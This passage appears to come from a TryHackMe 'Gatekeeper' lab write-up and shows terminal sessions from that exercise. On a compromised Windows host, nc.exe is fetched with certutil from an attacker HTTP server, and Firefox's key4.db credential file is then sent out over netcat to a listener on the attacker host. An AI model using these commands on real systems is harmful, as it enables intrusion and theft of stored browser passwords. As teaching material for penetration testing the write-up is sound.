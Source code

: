 ```text
root@kali:/home/kali/thm/gatekeeper# wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
--2021-03-18 21:55:38--  https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 111892 (109K) [application/zip]
Saving to: ‘netcat-win32-1.12.zip’

netcat-win32-1.12.zip                                 100%[=========================================================

2021-03-18 21:55:38 (628 KB/s) - ‘netcat-win32-1.12.zip’ saved [111892/111892]

root@kali:/home/kali/thm/gatekeeper# unzip netcat-win32-1.12.zip 
Archive:  netcat-win32-1.12.zip
  inflating: doexec.c                
  inflating: getopt.c                
  inflating: netcat.c                
  inflating: generic.h               
  inflating: getopt.h                
  inflating: hobbit.txt              
  inflating: license.txt             
  inflating: readme.txt              
  inflating: Makefile                
  inflating: nc.exe                  
  inflating: nc64.exe                

root@kali:/home/kali/thm/gatekeeper# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now switch to our shell on the Windows machine and pull nc.exe across:

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>certutil -urlcache -f http://10.8.165.116:8000/nc.exe nc.exe
certutil -urlcache -f http://10.8.165.116:8000/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Now start another netcat session running on Kali ready to receive the first file:

```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 4444 > key4.db
listening on [any] 4444 ...
```

Over on Windows use nc.exe to send the file:

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>nc -nv 10.8.165.116 4444 < key4.db  
nc -nv 10.8.165.116 4444 < key4.db
```
